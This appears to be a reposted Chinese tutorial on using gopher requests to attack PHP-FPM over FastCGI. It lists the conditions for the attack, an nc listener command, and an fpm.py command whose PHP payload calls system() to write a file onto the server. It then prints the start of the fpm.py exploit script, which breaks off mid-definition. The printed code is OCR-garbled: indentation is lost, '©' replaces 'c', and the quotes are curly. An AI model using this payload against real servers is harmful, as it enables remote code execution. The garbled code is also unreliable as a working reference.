 # gopher 攻击FastCGI

> 原文：[https://www.zhihuifly.com/t/topic/3582](https://www.zhihuifly.com/t/topic/3582)

#### gopher 攻击FastCGI

利用条件

*   libcurl版本>=7.45.0(由于EXP里有%00，CURL版本小于7.45.0的版本，gopher的%00会被截断)
*   PHP-FPM监听端口
*   PHP-FPM版本 >= 5.3.3
*   知道服务器上任意一个php文件的绝对路径

转换为Gopher的EXP
监听一个端口的流量 `nc -lvvp 2333 > 1.txt`，执行EXP，流量打到2333端口

```
python fpm.py -c "<?php system('echo sectest > /tmp/1.php'); exit;?>" -p 2333 127.0.0.1 php文件绝对路径 
```

> fpm.py

```
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: [https://github.com/wuyunfeng/Python-FastCGI-Client](https://github.com/wuyunfeng/Python-FastCGI-Client)

PY2 = True if sys.version_info.major == 2 else False

def bchr(i):

if PY2:

return force_bytes(chr(i))

else:

return bytes([i])

def bord©:

if isinstance(c, int):

return c

else:

return ord©

def force_bytes(s):

if isinstance(s, bytes):

return s

else:

return s.encode(‘utf-8’, ‘strict’)

def force_text(s):

```